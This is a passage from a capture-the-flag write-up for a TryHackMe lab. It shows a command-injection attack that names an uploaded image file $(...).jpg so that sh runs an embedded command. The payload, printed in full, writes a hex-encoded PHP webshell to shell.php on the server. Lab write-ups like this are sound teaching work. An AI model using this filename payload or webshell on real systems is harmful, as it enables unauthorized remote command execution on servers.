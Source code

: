 Next, we will rename our image as `$(<payload>).jpg`. This is because we know that our file name will be passed to the `sh` process via `procExec`, and `$()` is used for command substitution in `sh`. It will first execute the command inside `$()` and then replace it with the output of that command before running the actual command.

For example, we can see this in action as follows:

```console
$ echo "Whoami: $(whoami)"
Whoami: kali
```

As shown in the example, `sh` runs the command inside `$()` first, which is `whoami`, and outputs `kali`. It then replaces the `$()` with the output of the command and executes the actual command as `echo "Whoami: kali"`. So, by the same logic, by naming our file `$(<payload>).jpg`, we make it execute our payload before the `exiftran` command.

For our payload, we will create one that writes a `PHP` webshell to the system.

To avoid any special characters in our payload, we will send the contents of our webshell in hex-encoded format.

```console
$ echo '<?php system($_GET["c"]); ?>' | xxd -p
3c3f7068702073797374656d28245f4745545b2263225d293b203f3e0a
```

So, our final payload for the file name will be:

```console
$(echo 3c3f7068702073797374656d28245f4745545b2263225d293b203f3e0a | xxd -r -p > shell.php).jpg
```

This payload will `echo` the hex-encoded `PHP` webshell and pipe it to `xxd`, which will decode it. We then use `> shell.php` to write the decoded output to a `shell.php` file on the server.

Now, let's rename our image with the payload.

![Web 80 Files Exploit Two](/images/Posts/tryhackme_lookup/web_80_files_exploit2.webp){: width="1200" height="600" }
